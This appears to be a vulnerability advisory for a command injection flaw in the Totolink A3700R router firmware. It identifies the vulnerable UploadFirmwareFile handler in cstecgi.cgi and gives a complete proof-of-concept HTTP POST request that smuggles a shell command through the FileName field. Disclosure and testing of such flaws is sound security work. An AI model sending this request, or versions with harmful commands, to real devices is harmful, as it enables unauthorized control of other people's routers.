 
### **Overview**：
Affected Device: Totolink A3700R 

Affected Firmware Version: V9.1.2u.6165_20211012 

Vulnerability: Command Injection, allowing arbitrary command execution 

Firmware Download Link: [Firmware Download Link](https://download.totolink.tw/uploads/firmware/A3700R/TOTOLINK_A3700R_V9.1.2u.6165_20211012.zip) 

Report Email: [zwx918569613@gmail.com](mailto:zwx918569613@gmail.com)


![](Pasted%20image%2020231022165035.png)

### **Vulnerability**：

This vulnerability is located in the `cstecgi.cgi` function, specifically in the `FUN_0042f718` function alias known as `UploadFirmwareFile`.


![](Pasted%20image%2020231022165445.png)


The `cstecgi.cgi` uses the value of the `topicurl` parameter to handle different function interfaces. By constructing the `FileName` parameter, you can pass the encapsulated `doSystem` function, and since `doSystem` does not have input filtering, it is possible to achieve arbitrary command execution by constructing the right payload.


### **POC**:

To reproduce the vulnerability, you can use a real device or simulate it using QEMU. The following POC can be used to exploit it:


~~~
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.122.15
Content-Length: 73
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.122.15
Referer: http://192.168.122.15/basic/index.html?time=1697964093345
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1697964047:2
Connection: close


{"topicurl":"UploadFirmwareFile","FileName":";ls;"}
~~~

### **Impact**：

![](Pasted%20image%2020231022170210.png)